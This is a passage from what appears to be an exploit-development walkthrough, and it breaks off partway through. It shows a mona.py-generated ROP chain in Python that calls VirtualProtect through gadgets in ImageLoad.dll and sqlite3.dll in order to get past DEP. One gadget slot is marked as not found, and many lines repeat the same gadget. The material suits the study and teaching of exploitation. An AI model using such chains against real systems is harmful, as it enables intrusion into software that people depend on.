 Let's have a look at `rop_chains.txt` and see if there's something useful we could use:

{% codeblock lang:python %}
*** [ Python ] ***

  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
      0x1002248c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ImageLoad.dll] 
      0x61c18d81,  # XCHG EAX,EDI # RETN [sqlite3.dll] 
      0x1001d626,  # XOR ESI,ESI # RETN [ImageLoad.dll] 
      0x10021a3e,  # ADD ESI,EDI # RETN 0x00 [ImageLoad.dll] 
      0x10013ad6,  # POP EBP # RETN [ImageLoad.dll] 
      0x61c227fa,  # & push esp # ret  [sqlite3.dll]
      0x00000000,  # [-] Unable to find gadget to put 00000201 into ebx
      0x10022c4c,  # XOR EDX,EDX # RETN [ImageLoad.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 